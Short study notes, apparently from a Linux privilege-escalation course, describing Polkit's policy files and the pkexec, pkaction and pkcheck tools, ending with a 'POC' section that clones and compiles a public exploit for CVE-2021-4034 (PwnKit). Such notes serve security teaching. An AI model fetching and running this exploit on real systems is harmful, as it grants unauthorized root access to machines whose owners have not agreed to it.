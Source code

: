 # Polkit

- [Introduction](#what-is-polkit)
- [POC](#poc)

### What is Polkit

Polkit works with two groups of files.
1. actions/policies (/usr/share/polkit-1/actions)
2. rules (/usr/share/polkit-1/rules.d)

> Polkit also has local authority rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory /etc/polkit-1/localauthority/50-local.d with the file extension `.pkla`.

PolKit also comes with three additional programs:
1. pkexec - runs a program with the rights of another user or with root rights
2. pkaction - can be used to display actions
3. pkcheck - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as sudo and can run a program with the rights of another user or root.

```bash
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

### POC 
```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
``` 